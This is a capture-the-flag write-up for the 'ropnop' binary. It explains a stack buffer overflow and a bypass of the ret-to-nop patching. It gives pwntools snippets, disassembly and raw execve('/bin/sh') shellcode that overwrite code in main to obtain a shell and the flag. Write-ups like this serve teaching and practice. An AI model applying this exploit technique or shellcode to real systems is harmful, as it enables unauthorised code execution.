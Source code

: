 # ROPNOP
## General information
### Analyzing the binary
First we use the file command to get some information about the binary.

```
root@dab66e65c349:/pwd/ropnop# file ropnop
ropnop: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, with debug_info, not stripped
```

To see what security features are enabled we run checksec.

```
root@dab66e65c349:/pwd/ropnop# checksec ropnop
[*] '/pwd/ropnop/ropnop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Here we directly notice there are no stack-canarys. This allows easy an bufferoverflow, because we don't need to leak values.

### Analyzing the code
Now let's take a look at the provided source code. After the setup we call `ropnop()`. The function prints the start and end of the code segment, later we will use this to defeat ASLR.  Then `mprotect` is called.

`mprotect(start, end-start, PROT_READ|PROT_WRITE|PROT_EXEC);`

This changes the permissions for the code segment to read/write/execute. This is important because if we can write to this segment we can get arbitrary code execution and thereby a shell.
`ropnop()` then uses a while-loop to replace all return instrutions(*op-code: 0xc3*) with a nop(*op-code: 0x90*). However you have to notice that the instruction 

`<+112>:	cmp    ecx, 0xc3`

contains the byte 0xc3 in its opcode and when the while-loop runs over this instruction it gets replaced with

`<+112>:	cmp    ecx,0x90`

Now the function does nothing anymore, because it only replaces nops with nops. This means that only return instruction before the ropnop function are replaced.


Back in main we call read:

```
int* buffer = (int*)&buffer;
read(0, buffer, 0x1337);
```

This enables a buffer overflow, because there is only place for one pointer on the stack, but we can write up to 0x1337 bytes. That way we get control over rbp and rip. You might also notice the function gadget_shop which is never called and contains so useful gadgets for a ROP attack. However gadget_shop is overwritten by ropnop and contains no more return instruction meaning it is now useless. This doesn't really matter because the final exploit needs no specific ROP-gadgets.
## The idea
The buffer overflow allows control over rip, rbp and the stack. If the stack would be executable we could place shell code here and win the challenge, but this is not possible since NX is enabled. We need to overwrite the code segment because it is the only one that has write and execute permissions. To do this we control rip in such a way that we jump back into main and call read again. The following instruction in main set up the read call:
```
<+25>:	xor   edi,edi
<+27>:	lea   rax,[rbp-0x10]
<+31>:	mov   QWORD PTR [rbp-0x10],rax
<+35>:	mov   rax,QWORD PTR [rbp-0x10]
<+39>:	mov   rsi,rax
<+42>:	mov   edx,0x1337
<+47>:	call  0x555555555040 <read@plt>
```
The rax register is the address we will write to and if we can control it we can overwrite code. As you can see at `<+27>` rax is loaded from rbp-0x10 and we already control rbp.

We can use your second buffer overflow to overwrite the last instructions of main with shell code. After we return from read back into main our shell code that sits at the end of main will be executed.
## The exploit
To automate the process of sending and receiving data we can use the python library [pwn-tools](http://docs.pwntools.com/en/stable/). We get the process and store it in the variable p.
```
p = remote("hax1.allesctf.net", 9300)
```
We read the output from the printf in ropnop and extract the start address from the string.
```
recv_buf = p.recv(64).split()

start = int(recv_buf[3], 16)
end = int(recv_buf[-1], 16)
```
We can now use this as a base to calculate other addresses from and defeat ASLR. The first buffer overflow consists of a 16 bytes padding to fill up the stack untill rbp, the next 8 bytes will become the new rbp. The new rbp should point to after the read call in main plus 0x10, because rax will point here after we subtract 0x10. Then the second read call will overwrite the code here with our shell code.

The last 8 bytes from the first bufferoverflow will controll rip. We use this to redirct code execution back into main befor the read call.

From the gdb disassemly of main we can see the offsets for the diffrent instructions.
````
   0x00000000000012a0 <+0>:	push   rbp
   0x00000000000012a1 <+1>:	mov    rbp,rsp
   0x00000000000012a4 <+4>:	sub    rsp,0x20
   0x00000000000012a8 <+8>:	mov    DWORD PTR [rbp-0x4],0x0
   0x00000000000012af <+15>:	call   0x1170 <init_buffering>
   0x00000000000012b4 <+20>:	call   0x1200 <ropnop>
   0x00000000000012b9 <+25>:	xor    edi,edi
   0x00000000000012bb <+27>:	lea    rax,[rbp-0x10]
   0x00000000000012bf <+31>:	mov    QWORD PTR [rbp-0x10],rax
   0x00000000000012c3 <+35>:	mov    rax,QWORD PTR [rbp-0x10]
   0x00000000000012c7 <+39>:	mov    rsi,rax
   0x00000000000012ca <+42>:	mov    edx,0x1337
   0x00000000000012cf <+47>:	call   0x1040 <read@plt>
   0x00000000000012d4 <+52>:	xor    ecx,ecx
   0x00000000000012d6 <+54>:	mov    QWORD PTR [rbp-0x18],rax
   0x00000000000012da <+58>:	mov    eax,ecx
   0x00000000000012dc <+60>:	add    rsp,0x20
   0x00000000000012e0 <+64>:	pop    rbp
   0x00000000000012e1 <+65>:	ret
````
So we compute the new rbp value like `rbp = start + 0x12d6 + 0x10` where start is the begining of the code segment. This will cause our 2. read to overwrite main starting at `main<+54>`.

Now we calculate rip so the first read returns to `main<+25>` instead of `main<+52>` to call read again. In code it looks like this `rip = start + 0x12b9`

We use the struct module to turn the integers rip and rbp to bytearrays and send the first input in the expoit script.
````
p.send(padding + rbp + rip)
````

Now we call read again from main, but this time our arguments look like this.

````
 ► 0x5635babeb2cf <main+47>    call   read@plt <0x5635babeb040>
        fd: 0x0
        buf: 0x5635babeb2d6 (main+54) ◂— 0x5635babeb2d6
        nbytes: 0x1337
````
Now we can send our shell code to this read and overwrite main with it. Because aslr is enabled and we have no address from libc to compute offsets from our shell code should work without libc. I used a small nop slide (mainly for testing purposes) and then some assembly that sets up a execve syscall like so:
````
mov    rdx,0x0
lea    rdi,[rip+0x12]
mov    rsi,0x0
mov    rax,0x3b
syscall
nop
nop
````
The nops are there to aline the address. Then we place the string `/bin/sh` immediately after the shell code so rdi will point to this string. Now the syscall will execute a shell and we pwned the binary. I used (this)[https://defuse.ca/online-x86-assembler.htm#disassembly] online assembler to get the bytes for the shellcode. In our script the second overflow look like this:
````
nop_slide = b"\x90"*10
shell_code = b"\x48\xC7\xC2\x00\x00\x00\x00\x48\x8D\x3D\x12\x00\x00\x00\x48\xC7\xC6\x00\x00\x00\x00\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05\x90\x90"
shell_string = bytearray("/bin/sh", "ascii")

p.send(nop_slide + shell_code + shell_string + b"\x00")
````
After sending it to the binary we have a shell! You can find the full expolit in the additional files, run it on the remote server then use `cat flag` to get CSCG{s3lf_m0d1fy1ng_c0dez!}.
